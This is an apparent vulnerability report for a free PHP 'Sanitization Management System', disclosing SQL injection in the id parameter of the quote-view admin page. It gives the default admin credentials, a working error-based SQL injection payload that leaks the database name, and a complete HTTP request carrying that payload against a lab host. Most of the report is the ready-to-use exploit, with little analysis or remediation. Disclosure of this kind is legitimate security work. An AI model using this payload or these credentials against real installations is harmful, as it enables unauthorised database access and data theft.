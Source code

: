 # Sanitization Management System v1.0 by oretnom23 has SQL injection

BUG_Author: BGP-OSPF

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

The program is built using the xmappA-php8.1 version

Vulnerability File: /php-sms/admin/?page=quotes/view_quote&id=

Vulnerability location: /php-sms/admin/?page=quotes/view_quote&id=, id

dbname =sms_db,length=6

[+] Payload:  /php-sms/admin/?page=quotes/view_quote&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /php-sms/admin/?page=quotes/view_quote&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/195977660-b6843099-8026-4dd8-beaa-3efd41052764.png)
